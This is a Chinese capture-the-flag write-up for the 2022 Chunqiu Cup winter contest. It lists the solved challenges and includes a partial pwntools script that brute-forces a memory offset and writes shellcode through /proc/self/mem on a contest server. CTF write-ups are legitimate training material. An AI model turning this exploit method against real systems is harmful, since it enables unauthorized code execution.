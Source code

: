 ```yaml
---
title: 2022年春秋杯网络安全联赛-冬季赛-WP
tags: ['Writeup', 'CQB']
categories: Writeup
date: 2021-08-21 00:00:00
toc: true
---
```


> By Frankss
>
> Rank: 1
>
> Solved: 10



- [2022年春秋杯网络安全联赛-冬季赛-WP](#2022年春秋杯网络安全联赛-冬季赛-wp)
  - [Misc \[AK\]](#misc-ak)
    - [reindeer game](#reindeer-game)
    - [楠之勇者传](#楠之勇者传)
    - [问卷](#问卷)
    - [nan's analysis](#nans-analysis)
  - [PWN](#pwn)
    - [work\_pwn](#work_pwn)
    - [online\_judge](#online_judge)
  - [RE \[AK\]](#re-ak)
    - [godeep](#godeep)
    - [easy\_python \[三血\]](#easy_python-三血)
    - [baby\_transform \[三血\]](#baby_transform-三血)
  - [Web](#web)
    - [ezphp](#ezphp)

非常幸运地摸了一个炫酷的名次，诚惶诚恐  
![picture 5](/img/90b1b759dcede421cedb05b9a41ba9dc5f349c5edd8e9a0fe0d9fd4ceeb02bd8.png)  


## Misc [AK]

### reindeer game
pyinstaller解包，直接调pyc里生成flag的函数：
![picture 1](/img/a1ecafabcadcb41aaea235af580c7f3b1f7707b100d32984ee97bfa4b0ec1edb.png)  

### 楠之勇者传
轻松拿到魔法棒，然后按提示去 `/proc/self/mem` 找地方写sc  
自己开了个环境看一下nobody跑的python36居然是没随机化地址的，然后本地偏移通了远程不过（版本是一样的）  
于是远程先按`0x1000`加偏移，卡死了就逐byte加，然后就成功执行到了shellcode  
```python
from pwn import *

for off in range(3, 0x100):
    p = remote("39.106.48.123", 28287)
    context.log_level = 'debug'
    p.sendline(b"1")
    p.sendlineafter(b">> ", b"1")
    for _ in range(10):
        p.sendlineafter(b">> ", b"4")
        p.sendlineafter(b"Enter", b"")
    p.sendlineafter(b">> ", b"3")
    p.sendlineafter(b">> ", b"1")
    p.sendline(b"a")
    p.sendlineafter(b"Enter", b"")
    p.sendlineafter(b">> ", b"2")
```